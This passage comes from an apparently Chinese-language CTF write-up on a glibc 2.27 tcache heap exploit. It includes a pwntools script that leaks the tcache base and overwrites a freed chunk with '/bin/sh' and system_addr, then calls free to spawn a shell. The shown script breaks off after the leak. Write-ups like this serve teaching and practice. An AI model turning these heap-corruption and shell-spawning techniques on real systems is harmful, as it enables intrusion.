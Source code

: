    ![image-20240712182813509](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407121828787.png)

7. 两次申请后得到该地址，再向该地址写入 b"/bin/sh\x00"+p64(system_addr)，最后free执行system("/bi/sh")：

   ```python
   add(0x28)
   add(0x28)
   payload = b'/bin/sh\x00'+p64(system_addr)
   edit(payload)
   free()
   ```

8. 完整EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   
   context(os='linux', arch='amd64', log_level='debug')
   
   # p = remote("node4.anna.nssctf.cn",28516)
   p = process("./pwn")
   libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/libc-2.27.so')
   elf = ELF("./pwn")
   
   n2b = lambda x    : str(x).encode()
   rv  = lambda x    : p.recv(x)
   ru  = lambda s    : p.recvuntil(s)
   sd  = lambda s    : p.send(s)
   sl  = lambda s    : p.sendline(s)
   sn  = lambda s    : sl(n2b(n))
   sa  = lambda t, s : p.sendafter(t, s)
   sla = lambda t, s : p.sendlineafter(t, s)
   sna = lambda t, n : sla(t, n2b(n))
   ia  = lambda      : p.interactive()
   rop = lambda r    : flat([p64(x) for x in r])
   
   
   def add(size):
       sla(b'choice:',b'1')
       sla(b':',str(0))
       sla(b':',str(size))
   
   def edit(content):
       sla(b':',b'2')
       sla(b':',b'0')
       sla(b':',content)
   
   def show():
       p.sendlineafter(b':',b'3')
       p.sendlineafter(b':',b"0")
   
   def free():
       sla(b': ',b'4')
       sla(b': ',b'0')
   
   # 泄漏tcache的基地址
   add(0x78)
   free()
   edit(p64(0)*2)
   free()
   show()
   
   p.recvuntil(b"Content: ")
   tcache = (u64(p.recv(6).ljust(8,b'\x00'))&0xfffffffff000)
   ```